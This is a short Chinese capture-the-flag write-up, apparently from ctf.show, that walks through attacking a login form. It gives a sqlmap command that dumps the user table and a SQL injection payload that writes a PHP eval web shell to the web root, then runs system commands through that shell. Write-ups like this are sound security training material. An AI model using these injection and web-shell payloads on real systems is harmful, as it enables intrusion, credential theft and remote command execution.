 sqlmap梭哈

```bash
python sqlmap.py -u http://f32ac42e-5fdf-4ccb-bdf9-a8d9f79f8364.challenge.ctf.show/checklogin.php --form --batch --dump
```

```
Database: sds
Table: sds_user
[1 entry]
+----+--------------+--------------+
| id | sds_password | sds_username |
+----+--------------+--------------+
| 1  | ctfshowwwww  | admin        |
+----+--------------+--------------+
```

然而依然用原账号密码登录不进去，因为 `sds_decode()` 函数 ，这个好像不可逆

```php
<?php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
?>
```

sql 写shell

```http
POST:
userid=a ' union select "<?php eval($_POST[1]);?>" into outfile "/var/www/html/a.php"%23&userpwd=b
```

这里有一个有趣的现象，当我们执行 `1=system('cat index.php');`时，网站直接解析了 `index.php`，因为写入的 `eval` 嘛

<img src=".\图片\Snipaste_2023-06-01_12-07-27.png" alt="Snipaste_2023-06-01_12-07-27" style="zoom:67%;" />
